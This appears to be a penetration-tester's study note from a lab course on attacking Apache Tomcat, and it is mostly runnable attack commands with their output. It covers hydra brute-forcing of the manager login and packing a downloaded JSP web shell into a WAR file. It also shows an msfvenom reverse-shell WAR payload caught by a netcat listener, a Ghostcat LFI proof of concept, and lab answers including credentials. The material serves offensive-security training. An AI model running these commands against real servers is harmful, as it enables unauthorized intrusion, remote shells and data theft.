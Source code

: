 ```yaml
---
description: >-
  If we can access the /manager or /host-manager endpoints, we can likely
  achieve remote code execution on the Tomcat server
---
```


# Attacking Tomcat

## Tomcat Manager - Login Brute Force

```
hydra -L users.txt -P /usr/share/seclists/Passwords/darkweb2017-top1000.txt -f 10.10.10.64 http-get /manager/html
```

{% embed url="https://github.com/oppsec/tomcter" %}
This seems interesting to try
{% endembed %}

Tomcat uses basic auth where credential pair are base64 encoded and placed into Authorization header&#x20;

## Tomcat Manager - WAR File Upload

* Many Tomcat installations provide a GUI interface to manage the application
* The interface is available at `/manager/html` by default
* Only `manager-gui` role are allowed to access.
* A WAR, or Web Application Archive, is used to quickly deploy web applications and backup storage.

<figure><img src="https://academy.hackthebox.com/storage/modules/113/tomcat_mgr.png" alt=""><figcaption><p>http://web01.inlanefreight.local:8180/manager/html</p></figcaption></figure>

* A WAR file can be created using the zip utility.
* A JSP web shell such as [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be downloaded and placed within the archive.

```shell-session
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp 
```

Click on `Browse` to select the .war file and then click on `Deploy`.

![image](https://academy.hackthebox.com/storage/modules/113/mgr\_deploy.png)

<figure><img src="https://academy.hackthebox.com/storage/modules/113/war_deployed.png" alt=""><figcaption><p>/backup appeared in table</p></figcaption></figure>

click on `backup`, we will get redirected to `http://web01.inlanefreight.local:8180/backup/` and get a `404 Not Found` error.

specify the `cmd.jsp` file in the URL as well, this will give us a webshell that we can use to run commands on Tomcat server.

```shell-session
curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id

<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: id<BR>
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

</pre>
</BODY></HTML>
```

> undeploy -> to clean up the webshell

**`msfvenom` to generate a malicious WAR file**

```shell-session
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war

Payload size: 1098 bytes
Final size of war file: 1098 bytes
```

```shell-session
nc -lnvp 4443

listening on [any] 4443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 45224


id

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

## CVE-2020-1938 : Ghostcat

* Tomcat was found to be vulnerable to an unauthenticated LFI
* Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable
* caused by a misconfiguration in the AJP protocol used by Tomcat
* AJP service is usually running at port 8009 on a Tomcat server

```shell-session
nmap -sV -p 8009,8080 app-dev.inlanefreight.local

Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-21 20:05 EDT
Nmap scan report for app-dev.inlanefreight.local (10.129.201.58)
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp open  http    Apache Tomcat 9.0.30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.36 seconds
```

scan confirms that ports 8080 and 8009 are open

* PoC code for the vulnerability can be found [here](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi).

```shell-session
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 

Getting resource at ajp13://app-dev.inlanefreight.local:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

In some Tomcat installs, we may be able to access sensitive data within the WEB-INF file.

## Assessment

**Perform a login bruteforcing attack against Tomcat manager at http://web01.inlanefreight.local:8180. What is the valid username?**

```
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
```

* tomcat

**What is the password?**

* root

**Obtain remote code execution on the http://web01.inlanefreight.local:8180 Tomcat instance. Find and submit the contents of tomcat\_flag.txt**

```
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup.war cmd.jsp 
```

browse > deploy

<figure><img src="../../../.gitbook/assets/image (5) (3).png" alt=""><figcaption><p>/backup</p></figcaption></figure>

